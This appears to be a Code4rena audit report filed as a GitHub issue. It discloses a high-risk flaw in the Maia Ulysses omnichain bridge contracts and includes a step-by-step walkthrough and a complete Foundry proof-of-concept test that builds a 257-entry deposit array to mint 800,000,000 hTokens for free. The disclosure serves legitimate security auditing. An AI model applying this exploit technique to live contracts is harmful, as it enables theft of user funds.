

## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-12

# [Attacker can mint arbitrary amount of hToken on RootChain](https://github.com/code-423n4/2023-05-maia-findings/issues/643) 

# Lines of code

https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchBridgeAgent.sol#L275-L316
https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L860-L1174
https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgentExecutor.sol#L259-L299
https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L404-L426
https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootPort.sol#L276-L284


# Vulnerability details

## Impact

Adversary can construct an attack vector that let’s him mint arbitrary amount of hToken’s on the Root Chain.

## Note

End-to-end coded PoC is at the end of PoC section. 

## Proof of Concept

### Background

The attack will start on a Branch Chain where we have some underlying ERC20 `token` and a corresponding `hToken`  that represents `token` within the omnichain system. The `callOutSignedAndBridgeMultiple(...)` function is supposed to bridge multiple tokens to a destination chain and also carry the msg.sender so that the tokens can be credited to msg.sender's VirtualAccount. The attacker will call the function with such `DepositMultipleInputParams` `_dParams` that take advantage of several weaknesses contained within the function (below is an overview of DepositMultipleInput struct & flow diagram of BranchBridgeAgent).

```solidity
struct DepositMultipleInput {
    //Deposit Info
    address[] hTokens; //Input Local hTokens Address.
    address[] tokens; //Input Native / underlying Token Address.
    uint256[] amounts; //Amount of Local hTokens deposited for interaction.
    uint256[] deposits; //Amount of native tokens deposited for interaction.
    uint24 toChain; //Destination chain for interaction.
}
```



Weakness `#1`  is that the supplied array of tokens `address[] hTokens` in `_dParams` is not checked if it exceeds 256, this causes an obvious issue where if `hTokens` length is > 256 the recorded length in `packedData` will be wrong since it's using an unsafe cast to uint8 and will overflow - `uint8(_dParams.hTokens.length)` . 

```solidity
function callOutSignedAndBridgeMultiple(
        bytes calldata _params,
        DepositMultipleInput memory _dParams,
        uint128 _remoteExecutionGas
    ) external payable lock requiresFallbackGas {
        // code ...

        //Encode Data for cross-chain call.
        bytes memory packedData = abi.encodePacked(
            bytes1(0x06),
            msg.sender,
            uint8(_dParams.hTokens.length),
            depositNonce,
            _dParams.hTokens,
            _dParams.tokens,
            _dParams.amounts,
            _deposits,
            _dParams.toChain,
            _params,
            msg.value.toUint128(),
            _remoteExecutionGas
        );
				
				// code ...
				_depositAndCallMultiple(...);
    }
```

Weakness `#2` arises in the subsequent internal function `_depositAndCallMultiple(...)`, where the only check done on the supplied `hTokens`, `tokens`, `amounts` & `deposits` arrays is if the lengths match, however, there is no check if the length is the same as the one passed earlier to packedData.  

```solidity
function _depositAndCallMultiple(
        address _depositor,
        bytes memory _data,
        address[] memory _hTokens,
        address[] memory _tokens,
        uint256[] memory _amounts,
        uint256[] memory _deposits,
        uint128 _gasToBridgeOut
    ) internal {
        //Validate Input
        if (
            _hTokens.length != _tokens.length || _tokens.length != _amounts.length
                || _amounts.length != _deposits.length
        ) revert InvalidInput();

        //Deposit and Store Info
        _createDepositMultiple(_depositor, _hTokens, _tokens, _amounts, _deposits, _gasToBridgeOut);

        //Perform Call
        _performCall(_data);
    }
```

Lastly, weakness `#3` is that  `bridgeOutMultiple(...)`, called within `_createDepositMultiple(...)`, allows for supplying any address in the `hTokens` array since it only performs operations on these addresses if -

`_deposits[i] > 0` or `_amounts[i] - _deposits[i] > 0` - in other words - if we set `deposits[i] = 0` & `amounts[i] = 0` we can supply ANY address in `hTokens[i]`.

```solidity
function bridgeOutMultiple(
        address _depositor,
        address[] memory _localAddresses,
        address[] memory _underlyingAddresses,
        uint256[] memory _amounts,
        uint256[] memory _deposits
    ) external virtual requiresBridgeAgent {
        for (uint256 i = 0; i < _localAddresses.length;) {
            if (_deposits[i] > 0) {
                _underlyingAddresses[i].safeTransferFrom(
                    _depositor,
                    address(this),
                    _denormalizeDecimals(_deposits[i], ERC20(_underlyingAddresses[i]).decimals())
                );
            }
            if (_amounts[i] - _deposits[i] > 0) {
                _localAddresses[i].safeTransferFrom(_depositor, address(this), _amounts[i] - _deposits[i]);
                ERC20hTokenBranch(_localAddresses[i]).burn(_amounts[i] - _deposits[i]);
            }
            unchecked {
                i++;
            }
        }
    }
```

### Supplying the attack vector

The attacker will construct such `DepositMultipleInput _dParams` where `address[] hTokens` will have a length of 257 where all entries, except `hTokens[1], hTokens[2] & hTokens[3]` , will contain the Branch address of the same `hToken` (note that in the examined functions above there is no restriction to supply the same `hToken` address multiple times). 

In a similar way `address[] tokens` will have length of 257, however, here all entries will contain the underlying `token` (it is crucial to include the address of the underlying `token` to bypass `_normalizeDecimals`).  

Next `uint256[] amounts` will be of length 257 where all entries will contain 0. Similarly 

`uint256[] deposits` will be of length 257 where all entries will contain 0. In such configuration the attacker is able to supply a malicious `hToken` address as per weakness `#3`.

The crucial part now is that `hTokens[1]` will contain the address of the underlying `token` - this is needed to later bypass the params check on the RootChain.

`hTokens[2] & hTokens[3]` will contain the attacker’s malicious payload address that when converted to bytes and then `uint256` will represent the arbitrary amount of tokens that the attacker will mint (this conversion will happen on the RootChain).

This is how the attack vector looks expressed in code.

```solidity
				// hToken address, note the "h" in the var name
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        // 0x2FAF0800 when packed to bytes and then cast to uint256 = 800000000
				// this amount will be minted on Root 
        address malicious_address = address(0x2FAF0800);
        
        uint256 amount1 = 0;
        uint256 amount2 = 0;

        uint num = 257;
        address[] memory htokens = new address[](num);
        address[] memory tokens = new address[](num);
        uint256[] memory amounts = new uint256[](num);
        uint256[] memory deposits = new uint256[](num);

        for(uint i=0; i<num; i++) {
            htokens[i] = addr1;
            tokens[i] = addr2;
            amounts[i] = amount1;
            deposits[i] = amount2;
        }
    
        // address of the underlying token
        htokens[1] = addr2;
      
        // copy of entry containing the arbitrary number of tokens
        htokens[2] = malicious_address;
        
        // entry containing the arbitrary number of tokens -> this one will be actually fed to mint on Root
        htokens[3] = malicious_address;
       
        uint24 toChain = rootChainId;

        // create input
        DepositMultipleInput memory input = DepositMultipleInput({
            hTokens:htokens,
            tokens:tokens,
            amounts:amounts,
            deposits:deposits,
            toChain:toChain
        });
```

Essentially what happens now is that the attacker has `packedData` that contains 257 `hTokens`, `tokens`, `amounts` & `deposits` , however due to weakness `#1` the recorded length is 1 and due to weakness `#2` and `#3` this construction of the Input will reach `_peformCal(data)` and the mismatch between the number of entries and the actual number of supplied entries will cause malicious behavior on the RootChain. 

```solidity
bytes memory packedData = abi.encodePacked(
            bytes1(0x06),
            msg.sender,
            uint8(_dParams.hTokens.length),
            depositNonce,
            _dParams.hTokens,
            _dParams.tokens,
            _dParams.amounts,
            _deposits,
            _dParams.toChain,
            _params,
            msg.value.toUint128(),
            _remoteExecutionGas
        );
```

The attack vector is inline with the general encoding scheme displayed below, the important note is that Length will contain a value of 1 instead of 257 which will disrupt the decoding on the RootBranch. More details about the encoding can be found in `IRootBridgeAgent.sol` .

```
+--------+----------+--------+--------------+---------------------------+---------------------+----------------------+-----------------------+---------+------+----------+
|  Flag  |  Signer  | Length | depositNonce | hTokens[0], [1] ... [256] | tokens[0] ... [256] | amounts[0] ... [256] | deposits[0] ... [256] | toChain | data |   gas    |
+--------+----------+--------+--------------+---------------------------+---------------------+----------------------+-----------------------+---------+------+----------+
| 1 byte | 20 bytes | 1 byte |   4 bytes    |       32 bytes * 257      |    32 bytes * 257   |    32 bytes * 257    |     32 bytes * 257    | 3 bytes | any  | 32 bytes |
+--------+----------+--------+--------------+---------------------------+---------------------+----------------------+-----------------------+---------+------+----------+
```

### RootBranch receives the attack vector

The entry point for a message on the Root Chain is `anyExecute(bytes calldata data)`  in `RootBridgeAgent.sol` - this will be called by Multichain’s AnycallExecutor. The function will unpack and navigate the supplied flag 0x06 - corresponding to `callOutSignedAndBridgeMultiple(...)` that was invoked on the Branch Chain. 

Next `executeSignedWithDepositMultiple(...)`will be invoked residing in `RootBridgeAgentExecutor.sol`, which will subsequently call `_bridgeInMultiple(...)`, however, the amount of data passed to `_bridgeInMultiple(...)` depends on the packed length of the `hTokens` array.

```
function executeSignedWithDepositMultiple(
        address _account,
        address _router,
        bytes calldata _data,
        uint24 _fromChainId
    ) external onlyOwner returns (bool success, bytes memory result) {
        //Bridge In Assets
        DepositMultipleParams memory dParams = _bridgeInMultiple(
            _account,
            _data[
                PARAMS_START_SIGNED:
                    PARAMS_END_SIGNED_OFFSET
                        + uint16(uint8(bytes1(_data[PARAMS_START_SIGNED]))) * PARAMS_TKN_SET_SIZE_MULTIPLE
            ],
            _fromChainId
        );

				// more code ...
```

If we examine closer the constants and check with the encoding scheme - 

PARAMS_START_SIGNED = 21

PARAMS_END_SIGNED_OFFSET = 29

PARAMS_TKN_SET_SIZE_MULTIPLE = 128, 

Here the intended behavior is that `_data`  is sliced in such a way that it removes the flag `bytes1(0x06)` and the msg.sender address, hence we start at byte 21, we have 29 to account for the bytes4(nonce), bytes3(chainId) and bytes1(length) (total of 8 bytes, but remember that byte slicing is exclusive of the second byte index) + uint16(length) * 128 for every set of `htoken` `token` `amount` & `deposit` . What will happen in the attack case is that `_data` will be cut short since length will be 1 instead of 257 and `_data` will contain length, nonce, chainId and the first 4 entries of the constructed `hTokens[]` array. 

Now `_bridgeInMultiple` will unpack the `_dParams` where `numOfAssets = 1`, hence only 1 iteration, and will populate a set with in reality the first 4 entries of the supplied `hTokens[]` in the attack vector - 

`hTokens[0] = hToken address`, 

`tokens[0] = token address`, 

`amounts[0] = malicious address payload cast to uint256`, 

`deposits[0] = malicious address payload cast to uint256`.

```solidity
function _bridgeInMultiple(address _recipient, bytes calldata _dParams, uint24 _fromChain)
        internal
        returns (DepositMultipleParams memory dParams)
    {
        // Parse Parameters
        uint8 numOfAssets = uint8(bytes1(_dParams[0]));
        uint32 nonce = uint32(bytes4(_dParams[PARAMS_START:5]));
        uint24 toChain = uint24(bytes3(_dParams[_dParams.length - 3:_dParams.length]));

        address[] memory hTokens = new address[](numOfAssets);
        address[] memory tokens = new address[](numOfAssets);
        uint256[] memory amounts = new uint256[](numOfAssets);
        uint256[] memory deposits = new uint256[](numOfAssets);

        for (uint256 i = 0; i < uint256(uint8(numOfAssets));) {
            //Parse Params
            hTokens[i] = address(
                uint160(
                    bytes20(
                        bytes32(
                            _dParams[
                                PARAMS_TKN_START + (PARAMS_ENTRY_SIZE * i) + 12:
                                    PARAMS_TKN_START + (PARAMS_ENTRY_SIZE * (PARAMS_START + i))
                            ]
                        )
                    )
                )
            );

            tokens[i] = address(
                uint160(
                    bytes20(
                        _dParams[
                            PARAMS_TKN_START + PARAMS_ENTRY_SIZE * uint16(i + numOfAssets) + 12:
                                PARAMS_TKN_START + PARAMS_ENTRY_SIZE * uint16(PARAMS_START + i + numOfAssets)
                        ]
                    )
                )
            );

            amounts[i] = uint256(
                bytes32(
                    _dParams[
                        PARAMS_TKN_START + PARAMS_AMT_OFFSET * uint16(numOfAssets) + (PARAMS_ENTRY_SIZE * uint16(i)):
                            PARAMS_TKN_START + PARAMS_AMT_OFFSET * uint16(numOfAssets)
                                + PARAMS_ENTRY_SIZE * uint16(PARAMS_START + i)
                    ]
                )
            );

            deposits[i] = uint256(
                bytes32(
                    _dParams[
                        PARAMS_TKN_START + PARAMS_DEPOSIT_OFFSET * uint16(numOfAssets) + (PARAMS_ENTRY_SIZE * uint16(i)):
                            PARAMS_TKN_START + PARAMS_DEPOSIT_OFFSET * uint16(numOfAssets)
                                + PARAMS_ENTRY_SIZE * uint16(PARAMS_START + i)
                    ]
                )
            );

            unchecked {
                ++i;
            }
        }
        //Save Deposit Multiple Params
        dParams = DepositMultipleParams({
            numberOfAssets: numOfAssets,
            depositNonce: nonce,
            hTokens: hTokens,
            tokens: tokens,
            amounts: amounts,
            deposits: deposits,
            toChain: toChain
        });

        RootBridgeAgent(payable(msg.sender)).bridgeInMultiple(_recipient, dParams, _fromChain);
    }
```

Subsequently `bridgeInMultiple(...)` is called in `RootBridgeAgent.sol`, where `bridgeIn(...)` is called for every set of `hToken`, `token`, `amount` & `deposit` - one iteration in the attack scenario. 

`bridgeIn(...)` now performs the critical `checkParams` from the `CheckParamsLib` library where if only 1 of 3 conditions is `true` we will have a revert. 

The first check is revert if `_dParams.amount < _dParams.deposit` - this is `false` since `amount` & `deposit` are equal to the `uint256` cast of the `bytes` packing of the malicious address payload.

The second check is:

```
(_dParams.amount > 0 && !IPort(_localPortAddress).isLocalToken(_dParams.hToken, _fromChain))
```

Here it’s true `amount > 0` , however, `_dParams.hToken` is the first entry `hTokens[0]` of the attack vector’s `hTokens[]` array, therefore, it is a valid address & `isLocalToken(…)` will return `true` and will be negated by `!` which will make the statement `false` because of `&&`, therefore, it is bypassed.

The third check is:

```
(_dParams.deposit > 0 && !IPort(_localPortAddress).isUnderlyingToken(_dParams.token, _fromChain))
```

here it’s true `deposit > 0` , however, `_dParams.token` is the second entry `hTokens[1]` of the attack vector’s `hTokens[]` array, therefore, it is a valid underlying address & `isUnderlyingToken(…)` will return `true` and will be negated by `!` which will make the statement `false` because of `&&`, therefore, it is bypassed.

Whole `checkParams(…)`

```solidity
function checkParams(address _localPortAddress, DepositParams memory _dParams, uint24 _fromChain)
        internal
        view
        returns (bool)
    {
        if (
            (_dParams.amount < _dParams.deposit) //Deposit can't be greater than amount.
                || (_dParams.amount > 0 && !IPort(_localPortAddress).isLocalToken(_dParams.hToken, _fromChain)) //Check local exists.
                || (_dParams.deposit > 0 && !IPort(_localPortAddress).isUnderlyingToken(_dParams.token, _fromChain)) //Check underlying exists.
        ) {
            return false;
        }
        return true;
    }
```

Now back to `bridgeIn(...)` in RootBridgeAgent we get the `globalAddress` for `_dParams.hToken` (again this is the valid `hToken[0]` address from Branch Chain) and `bridgeToRoot(...)` is called that resides in `RootPort.sol`. 

```solidity
		//Get global address
    address globalAddress = IPort(localPortAddress).getGlobalTokenFromLocal(_dParams.hToken, _fromChain);

    //Check if valid asset
    if (globalAddress == address(0)) revert InvalidInputParams();

    //Move hTokens from Branch to Root + Mint Sufficient hTokens to match new port deposit
    IPort(localPortAddress).bridgeToRoot(_recipient, globalAddress, _dParams.amount, _dParams.deposit, _fromChain);
```

`bridgeToRoot(...)` will check if the `globalAddress` is valid and it is since we got it from the valid `hTokens[0]` entry in the constructed attack. Then `_amount - _deposit = 0` , therefore, no tokens will be transferred and finally the critical line `if (_deposit > 0) mint(_recipient, _hToken, _deposit, _fromChainId)` here `_deposit` is the malicious address payload that was packed to bytes and then unpacked and cast to `uint256` & `_hToken` is the global address that we got from `hTokens[0]` back in the unpacking, therefore whatever the value of the `uint256` representation of the malicious address is will be minted to the attacker.

### Coded PoC

Copy the two functions `testArbitraryMint` & `_prepareAttackVector` in `test/ulysses-omnichain/RootTest.t.sol`  and place them in the `RootTest` contract after the setup. 

Execute with `forge test --match-test testArbitraryMint -vv` 

Result - 800000000 minted tokens for free in attacker’s Virtual Account 

```solidity
function testArbitraryMint() public {
        
        // setup function used by developers to add local/global tokens in the system
        testAddLocalTokenArbitrum();

        // set attacker address & mint 1 ether to cover gas cost
        address attacker = address(0xAAAA);
        hevm.deal(attacker, 1 ether);
        
        // get avaxMockAssetHtoken global address that's on the Root
        address globalAddress = rootPort.getGlobalTokenFromLocal(avaxMockAssethToken, avaxChainId);
    
        // prepare attack vector
        bytes memory params = "";
        DepositMultipleInput memory dParams = _prepareAttackVector();
        uint128 remoteExecutionGas = 200_000_000_0;

        console2.log("------------------");
        console2.log("------------------");
        console2.log("ARBITRARY MINT LOG");

        console2.log("Attacker address", attacker);
        console2.log("Avax h token address",avaxMockAssethToken);
        console2.log("Avax underlying address", address(avaxMockAssetToken));

        console2.log("Attacker h token balance", ERC20hTokenBranch(avaxMockAssethToken).balanceOf(attacker));
        console2.log("Attacker underlying balance", avaxMockAssetToken.balanceOf(attacker));

        // execute attack
        hevm.prank(attacker);
        avaxMulticallBridgeAgent.callOutSignedAndBridgeMultiple{value: 0.00005 ether}(params, dParams, remoteExecutionGas);
        
        // get attacker's virtual account address
        address vaccount = address(rootPort.getUserAccount(attacker));

        console2.log("Attacker h token balance avax", ERC20hTokenBranch(avaxMockAssethToken).balanceOf(attacker));        
        console2.log("Attacker underlying balance avax", avaxMockAssetToken.balanceOf(attacker));

        console2.log("Attacker h token balance root", ERC20hTokenRoot(globalAddress).balanceOf(vaccount));
    
        console2.log("ARBITRARY MINT LOG END");
		    console2.log("------------------");

    }

    function _prepareAttackVector() internal view returns(DepositMultipleInput memory) {
        
        // hToken address
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        // 0x2FAF0800 when encoded to bytes and then cast to uint256 = 800000000 
        address malicious_address = address(0x2FAF0800);
        
        uint256 amount1 = 0;
        uint256 amount2 = 0;

        uint num = 257;
        address[] memory htokens = new address[](num);
        address[] memory tokens = new address[](num);
        uint256[] memory amounts = new uint256[](num);
        uint256[] memory deposits = new uint256[](num);

        for(uint i=0; i<num; i++) {
            htokens[i] = addr1;
            tokens[i] = addr2;
            amounts[i] = amount1;
            deposits[i] = amount2;
        }
    
        // address of the underlying token
        htokens[1] = addr2;
      
        // copy of entry containing the arbitrary number of tokens
        htokens[2] = malicious_address;
        
        // entry containing the arbitrary number of tokens -> this one will be actually fed to mint on Root
        htokens[3] = malicious_address;
       
        uint24 toChain = rootChainId;

        // create input
        DepositMultipleInput memory input = DepositMultipleInput({
            hTokens:htokens,
            tokens:tokens,
            amounts:amounts,
            deposits:deposits,
            toChain:toChain
        });

        return input;

    }
```

### Tools Used

Manual inspection

### Recommendation

Enforce more strict checks around input param validation on bridging multiple tokens.


## Assessed type

Invalid Validation